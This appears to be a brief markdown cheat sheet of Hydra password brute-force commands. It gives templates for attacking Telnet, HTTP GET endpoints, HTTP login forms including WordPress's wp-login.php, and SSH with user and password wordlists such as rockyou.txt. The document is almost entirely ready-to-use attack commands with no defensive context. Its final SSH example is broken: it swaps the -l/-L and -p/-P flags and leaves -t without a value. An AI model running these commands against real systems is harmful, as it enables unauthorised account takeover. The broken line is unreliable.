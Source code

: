 # Hydra

`hydra -L users.txt -P pass.txt <service://server> <options>`

Telnet:
- `hydra -L users.txt -P pass.txt telnet://target.server`

HTTP:
- `hydra -L users.txt -P pass.txt http-get://localhost/`
- `hydra -L users.txt -P pass.txt -t 10 -o result-attack.txt targetsite.com http-get-form "/login.php:username=^USER^&password=^PASS^&login=Username and/or password incorrect."`
- `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=<success_response>'`
 
SSH:
- `hydra -l user -P pass.txt -t 10 172.21.0.0 ssh -s 22`
- `hydra -l users.txt -p /usr/share/wordlists/rockyou.txt -t 172.21.0.0 ssh -s 22`